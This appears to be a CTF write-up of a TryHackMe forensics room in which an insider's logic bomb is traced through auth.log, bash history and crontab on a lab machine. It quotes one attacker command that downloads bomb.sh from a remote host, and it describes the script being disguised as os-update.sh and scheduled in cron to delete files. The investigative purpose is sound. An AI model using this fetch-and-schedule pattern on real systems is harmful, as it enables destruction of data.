








# FORENSICS CHALLENGE
## TRYHACKME CTF ROOM
*https://tryhackme.com/r/room/disgruntled*

### Description
Hey, kid! Good, you’re here!

Not sure if you’ve seen the news, but an employee from the IT department of one of our clients (CyberT) got arrested by the police. The guy was running a successful phishing operation as a side gig.

CyberT wants us to check if this person has done anything malicious to any of their assets. Get set up, grab a cup of coffee, and meet me in the conference room.

- Connect to the VM 

### Walkthrough

Lets have a poke around at the privileged commands that were run.
- cd var/log
- ls

Read the file and filter the search
- cat /var/log/auth.log | grep install

#### Flag 1 : /usr/bin/apt install dokuwiki
#### Flag 2 : /home/cybert

So we're told that a user was created after this previous package was implemented. We just need to adjust the grep filter search to 'adduser'

#### Flag 3 : it-admin

Now for the next flag we are told *A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)*
- Again just adjust the grep filter : cat auth.log | grep visudo
####  Flag 4 : seen in image

*A script file was opened using the "vi" text editor. What is the name of this file?*
- Adjust the grep filter : cat auth.log | grep vi
####  Flag 5 : seen in image

### clue
That bomb.sh file is a huge red flag! While a file is already incriminating in itself, we still need to find out where it came from and what it contains. The problem is that the file does not exist anymore.

Lets go to the directory of the it-admin account we discovered earlier
- cd /home/it-admin
- ls (returns no results)
- ls -la (returns the hidden results we need)

Now we can read the contents of the bash history file
- cat .bash_history

#### Flag 6 : curl 10.10.158.38:8080/bomb.sh --output bomb.sh

Now in the image above we can see that the user moved the file to /etc/crontab so lets read the contents
- cat /etc/crontab

#### Flag 7 : bin/os-update.sh

So we need to know when this file was last modified
- ls -lt /bin/os-update.sh 
Now this didn't show me the exact time stamp so we need to make our command more specific
- ls -lt --time-style=+'%Y-%m-%d %H:%M' /bin/os-update.sh

#### Flag 8 : Dec 28 06:29

Now to find the next flag we need to read the /bin/os-update.sh file
- cat /bin/os-update.sh

#### Flag 9 : goodbye.txt

We have already found the location of the script and the timer to execute previously in /etc/crontab file. (crontab.png)
- We need to convert the scedule using an online translator https://crontab.guru/
- Just input 0 8  * * * into the translator and we get the time and flag

#### Flag 10 : 08:00 AM

## Conclusion

Thanks to you, we now have a good idea of what our disgruntled IT person was planning.

We know that he had downloaded a previously prepared script into the machine, which will delete all the files of the installed service if the user has not logged in to this machine in the last 30 days. It’s a textbook example of a  “logic bomb”, that’s for sure.

Look at you, second day on the job, and you’ve already solved 2 cases for me. Tell Sophie I told you to give you a raise.